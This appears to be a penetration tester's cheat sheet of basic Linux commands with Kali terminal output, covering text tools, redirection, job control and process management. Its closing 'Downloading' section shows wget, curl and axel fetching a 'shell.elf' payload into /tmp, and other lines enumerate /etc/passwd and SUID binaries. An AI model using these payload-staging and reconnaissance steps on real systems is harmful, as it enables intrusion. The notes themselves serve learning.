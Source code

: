 # Basic Commands

## Common

### apropos

Search the list of man page descriptions for a possible match based on a keyword.

``` bash
apropos website
get-iab (1)          - Fetch the arp-scan IAB file from the IEEE website
get-oui (1)          - Fetch the arp-scan OUI file from the IEEE website (on Debian and Debian based systems, data is fetched from ieee-data package)
whatweb (1)          - Next generation Web scanner. Identify technologies used by websites.
```

### mkdir

``` bash
mkdir module one

mkdir "module one"

mkdir -p module/{one,two,three}
```

### Piping

``` bash
sudo ss -antlp | grep sshd
```

### sed

``` bash
echo 'Hades' | sed 's/Hades/leecybersec.com/'
```

### cut

``` bash
echo "hacking, penetration testing and bug hunting"| cut -f 2 -d " "

penetration
```
``` bash
cut -d ":" -f 1 /etc/passwd
root
daemon
bin
```

### awk

``` bash
cat /etc/passwd | awk -F ":" '{print $1, ":", $7}' | grep "sh"
```

### uniq -c

``` bash
cat list.txt | sort | uniq -c | sort -r
```

### Redirect

to a New File

``` bash
ls > list.txt
```

``` bash
cat list.txt
Desktop
Documents
list.txt
```

to an Existing File

``` bash
echo "Add new" >> list.txt
```

from a File

``` bash
wc -m < list.txt
```

STDERR

``` bash
find / -perm -u=s -type f 2>/dev/null
```

## Processes

### Background a process 

``` bash
┌──(Hades㉿192.168.11.130)-[0.8:10.9]~
└─$ nmap -p- 127.0.0.1 &           
[1] 1239
                                                                                                                                                                            
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-09 20:49 EST
```

### Suspend the job

``` bash
┌──(Hades㉿192.168.11.130)-[0.7:11.1]~
└─$ nmap -p- 192.168.11.131 -Pn

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-09 20:52 EST
^Z
zsh: suspended  nmap -p- 192.168.11.131 -Pn
┌──(Hades㉿192.168.11.130)-[0.7:11.4]~
└─$ bg

[1]  + continued  nmap -p- 192.168.11.131 -Pn
```

### jobs and fg

``` bash
┌──(Hades㉿192.168.11.130)-[0.7:11.1]~
└─$ jobs

[1]  + running    nmap -p- 192.168.11.131 -Pn
                                                                                                                                                                            
┌──(Hades㉿192.168.11.130)-[0.8:11.4]~
└─$ fg

[1]  + running    nmap -p- 192.168.11.131 -Pn
^C
```

### ps and kill

``` bash
ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 20:39 ?        00:00:02 /sbin/init splash
root           2       0  0 20:39 ?        00:00:00 [kthreadd]
<snip>
kali        1448    1202  0 20:56 pts/0    00:00:01 nmap -p- 192.168.11.131 -Pn
kali        1466    1202  0 20:56 pts/0    00:00:00 nmap -p- 192.168.11.132 -Pn
kali        1484    1202  0 20:57 pts/0    00:00:00 nmap -p- 192.168.11.133 -Pn
kali        1673    1202  0 20:59 pts/0    00:00:00 ps -ef
```

``` bash
ps -fC nmap
UID          PID    PPID  C STIME TTY          TIME CMD
kali        1448    1202  0 20:56 pts/0    00:00:01 nmap -p- 192.168.11.131 -Pn
kali        1466    1202  0 20:56 pts/0    00:00:00 nmap -p- 192.168.11.132 -Pn
kali        1484    1202  0 20:57 pts/0    00:00:00 nmap -p- 192.168.11.133 -Pn
```

``` bash
kill 1466                                                                                                                                                           2 ⚙
                                                                                                                                                                            
[2]  + terminated  nmap -p- 192.168.11.132 -Pn
```

## Monitoring

### tail

``` bash
udo tail -f /var/log/apache2/access.log
192.168.11.130 - - [09/Mar/2021:21:12:03 -0500] "GET / HTTP/1.1" 200 10956 "-" "curl/7.74.0"
192.168.11.130 - - [09/Mar/2021:21:12:05 -0500] "GET / HTTP/1.1" 200 10956 "-" "curl/7.74.0"
...
```

### watch

``` bash
watch -n 1 date
```

## Downloading

### wget

``` bash
wget -O /tmp/shell http://192.168.110.131/shell.elf
```

### curl

``` bash
curl -o /tmp/shell http://192.168.110.131/shell.elf
```

### axel

``` bash
axel -a -n 20 -o /tmp/shell http://192.168.110.131/shell.elf
```